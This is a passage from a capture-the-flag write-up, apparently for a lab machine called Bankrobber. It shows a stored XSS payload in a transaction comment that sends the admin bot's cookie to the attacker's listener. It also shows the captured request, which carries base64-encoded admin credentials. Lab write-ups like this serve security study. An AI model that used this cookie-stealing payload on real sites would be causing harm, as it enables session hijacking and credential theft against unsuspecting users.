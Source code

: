 In the user agent, we see `PhantomJS`, which is a headless browser that is probably used to automate user activity of previewing the users' transactions. If you see the referrer, it says that it came from `/admin/index.php`! This means it must have something in its cookies that is enabling it to access the admin pages so lets attempt to steal its cookie.

# Exploitation (1)

We send another transaction with the follow comment:

```html
<img src=x onerror=this.src='http://10.10.XX.XX/?c='+document.cookie>
```

Then on our `nc` listener, we see the raw `HTTP` request, this time with the admin's cookie attached!

```bash
$ sudo rlwrap nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.154] 49788
GET /?c=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.XX.XX
```

We see the base64-encoded version of the admin's credentials, so lets decode them and login as the admin.

![](/assets/images/bankrobber5.png)
